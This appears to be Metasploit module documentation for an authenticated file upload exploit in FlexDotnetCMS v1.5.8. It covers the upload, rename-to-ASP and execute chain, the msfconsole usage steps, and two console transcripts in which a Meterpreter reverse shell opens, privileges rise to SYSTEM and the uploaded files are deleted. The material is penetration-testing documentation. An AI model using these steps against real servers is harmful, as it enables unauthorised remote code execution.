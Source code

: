 ## Vulnerable Application
This module exploits an arbitrary file upload vulnerability in FlexDotnetCMS v1.5.8 and prior in order to execute arbitrary commands
with elevated privileges.

The module first tries to obtain various tokens required for authentication from `/login`.
Next, the module tries to authenticate via an HTTP POST request to the same destination followed by an HTTP GET request to `/Admin`.
If authentication is successful, the module uploads a TXT file containing a random string via an HTTP POST request to
`/Scripts/tinyfilemanager.net/dialog.aspx`.
The module then loads the uploaded TXT file in the file editor in order to obtain tokens necessary for renaming the TXT file.
It then tries to rename the TXT file to an ASP file via an HTTP POST request to `/Admin/Views/PageHandlers/FileEditor/Default.aspx`.
If this succeeds, the target is vulnerable and the ASP file is generated as a copy of the TXT file, which remains on the server.
Next, the module sends another request to the file editor to rename the TXT file to an ASP file, this time adding the payload.
The module will execute the payload via a simple HTTP GET request to `/media/uploads/asp_payload`.
Finally, the module will try to delete both the uploaded TXT file and the ASP copy from the target.

Valid credentials for a FlexDotnetCMS user with permissions to use the FileManager are required.
This attack will normally result in remote code execution with administrator privileges, because the attacker will inherit the privileges
of the IIS/IIS Express process, which must run with elevated privileges if configured to allow remote connections.
This module has been successfully tested against FlexDotnetCMS v1.5.8 running on Windows Server 2012.

Vulnerable software for testing is available on GitHub [here](https://github.com/MacdonaldRobinson/FlexDotnetCMS/releases).
Detailed installation instructions are available
[here](https://github.com/MacdonaldRobinson/FlexDotnetCMS/raw/master/WebApplication/Admin/media/docs/FlexDotnetCMSGuide.docx).
As the instructions mention, FlexDotnetCMS requires the following dependencies:
- .NET Framework 4.5.2
- Visual Studio 2015 (Free Community Edition works)
- MS SQL Server (Express) 2012 +
- IIS (Express) 8 +

## Verification Steps
1. Install the module as usual
2. Start msfconsole
3. Do: `use exploit/multi/http/FlexDotnetCMS_upload_exec`
4. Do: `set RHOSTS [IP]`
5. Do: `set USERNAME [username for the FlexDotnetCMS account]`
6. Do: `set PASSWORD [password for the FlexDotnetCMS account]`
7. Do: `set target [target]`
8. Do: `set payload [payload]`
9. Do: `set LHOST [IP]`
10. Do: `exploit`

## Options
### PASSWORD
The password for the FlexDotnetCMS account to authenticate with.
### TARGETURI
The base path to FlexDotnetCMS. The default value is `/`.
### USERNAME
The username for the FlexDotnetCMS account to authenticate with. The default value is `admin`.

## Targets
```
Id  Name
--  ----
0   Windows (x86)
1   Windows (x64)
```

## Scenarios
### FlexDotnetCMS v1.5.8 running on Windows Server 2012 - Windows x86 target
```
msf6 exploit(windows/http/flexdotnetcms_upload_exec) > show options

Module options (exploit/windows/http/flexdotnetcms_upload_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   Password1        yes       Password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.1.230    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      1113             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to FlexDotnetCMS
   USERNAME   admin            yes       Username to authenticate with
   VHOST                       no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.1.128    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows (x86)


msf6 exploit(windows/http/flexdotnetcms_upload_exec) > run

[*] Started reverse TCP handler on 192.168.1.128:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] Successfully authenticated to FlexDotnetCMS
[*] FlexDotnetCMS is installed on the target at C:/Users/Administrator/Desktop/FlexDotnetCMS-1.5.8/
[*] Uploaded test file wxoI7s6knq.txt. Attempting to rename the file to wxoI7s6knq.asp...
[+] Successfully renamed test file wxoI7s6knq.txt to wxoI7s6knq.asp (this is a copy of wxoI7s6knq.txt, which remains on the server)
[+] The target is vulnerable. Target is FlexDotnetCMS v1.5.8 or lower.
[*] Renaming wxoI7s6knq.txt to wxoI7s6knq.asp again, this time adding the payload
[+] Successfully added the ASP payload to wxoI7s6knq.asp
[*] Executing the payload...
[*] Sending stage (175174 bytes) to 192.168.1.230
[*] Meterpreter session 9 opened (192.168.1.128:4444 -> 192.168.1.230:62058) at 2020-11-02 11:10:41 -0500
[+] Successfully deleted wxoI7s6knq.txt
[+] Successfully deleted wxoI7s6knq.asp

meterpreter > getuid
Server username: WIN-S623VF4MJDR\Administrator
meterpreter > getsystem 
ge...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
tmeterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```
### FlexDotnetCMS v1.5.8 running on Windows Server 2012 - Windows x64 target
```
msf6 exploit(windows/http/flexdotnetcms_upload_exec) > run

[*] Started reverse TCP handler on 192.168.1.128:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] Successfully authenticated to FlexDotnetCMS
[*] FlexDotnetCMS is installed on the target at C:/Users/Administrator/Desktop/FlexDotnetCMS-1.5.8/
[*] Uploaded test file XLz3OTusi.txt. Attempting to rename the file to XLz3OTusi.asp...
[+] Successfully renamed test file XLz3OTusi.txt to XLz3OTusi.asp (this is a copy of XLz3OTusi.txt, which remains on the server)
[+] The target is vulnerable. Target is FlexDotnetCMS v1.5.8 or lower.
[*] Renaming XLz3OTusi.txt to XLz3OTusi.asp again, this time adding the payload
[+] Successfully added the ASP payload to XLz3OTusi.asp
[*] Executing the payload...
[*] Sending stage (200262 bytes) to 192.168.1.230
[*] Meterpreter session 10 opened (192.168.1.128:4444 -> 192.168.1.230:62059) at 2020-11-02 11:10:55 -0500
[+] Successfully deleted XLz3OTusi.txt
[+] Successfully deleted XLz3OTusi.asp

meterpreter > getuid
Server username: WIN-S623VF4MJDR\Administrator
meterpreter >
```
